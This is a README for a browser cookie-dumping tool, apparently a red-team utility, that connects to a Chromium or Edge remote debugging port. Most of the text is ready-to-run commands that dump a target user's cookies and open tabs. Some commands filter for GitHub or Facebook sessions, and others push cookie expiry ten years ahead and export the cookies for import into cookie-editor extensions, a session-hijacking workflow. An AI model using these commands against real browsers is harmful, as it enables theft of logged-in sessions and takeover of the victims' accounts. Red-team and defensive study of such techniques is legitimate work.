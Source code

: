 # WhiteChocolateMacademiaNut

![WhiteChocolateMacademiaNut](./example.png)

## Description
Interacts with [Chromium-based browsers' debug port](https://blog.chromium.org/2011/05/remote-debugging-with-chrome-developer.html) to view open tabs, installed extensions, and cookies. Tested against Google Chrome and Microsoft Edge.

## Blogpost
- https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e

## Usage
- Dump the user's open tabs and installed extensions
    - ```./WhiteChocolateMacademiaNut -p 4200 -d pages```
- Dump the user's cookies in human-readable format
    - ```./WhiteChocolateMacademiaNut --port 1337 --dump cookies --format human```
- Dump the user's cookies in raw JSON as returned by Chromium (compatible with [EditThisCookie extension](https://www.editthiscookie.com/))
    - ```./WhiteChocolateMacademiaNut --port 1234 --dump cookies --format raw```
- Dump the user's cookies in JSON with the name, value, domain, path, and modified expirationDate attribute to 10 years in the future (compatible with [Cookiebro extension](https://nodetics.com/cookiebro/))
    - ```./WhiteChocolateMacademiaNut -p 666 -d cookies -f modified```
- Dump the user's cookies in JSON if the cookie name or domain field contains `github` and modifies the expirationDate attribute
    - ```./WhiteChocolateMacademiaNut -p 4321 -d cookies -f modified -g github```
- Dump the user's cookies in human-readable format if the page title or url contains `facebook`
    -  ```./WhiteChocolateMacademiaNut --port 31415 --dump pages --grep facebook```

Load and clear functions are intended to be used locally. Do not clear target's cookies. In order for this to work, you will need to start the Chromium-based browser with the debug port open. 

- Load the user's cookies locally from a file
    - ```./WhiteChocolateMacademiaNut --port 9222 --load cookies.json```
- Clear all cookies
    - ```./WhiteChocolateMacademiaNut --port 9222 --clear```


## References
- https://mango.pdf.zone/stealing-chrome-cookies-without-a-password
- https://github.com/defaultnamehere/cookie_crimes
